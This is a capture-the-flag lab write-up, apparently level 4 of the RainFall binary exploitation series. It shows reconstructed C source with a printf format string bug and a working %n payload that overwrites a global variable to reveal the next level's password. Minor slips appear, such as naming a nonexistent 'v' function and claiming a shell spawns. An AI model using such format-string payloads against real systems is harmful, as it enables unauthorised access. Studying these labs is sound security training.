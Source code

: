 # Level 4

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int m;

void p(char *buffer)
{
    printf(buffer);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);

    p(buffer);
    if (m == 16930116)
        system("/bin/cat /home/user/level5/.pass");
}

int main(void)
{
    n();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function (called from the `p` function) is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous one, except that we have to write 16930116 bytes to the `m` variable to spawn a shell. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

So, First let's locate our input string on the stack and then determine the address of `m`:
```bash
level4@RainFall:~$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the twelfth position.

The assembly code reveals that the address of the `m` variable is `0x8049810`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the twelfth argument

"\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n"
```

Since we need to write 16930116 into `m`, we write 16930116 characters (4 from the address of m and 16930112 from the width specifier of `%p`). 
Then, we use the `%n` format specifier to write the count of bytes written so far into the twelfth argument, which corresponds to `m`'s address.

Let's run our payload:
```bash
level4@RainFall:~$ python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4
[...]
0xb7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We are now level5! Let's move on to the next level.
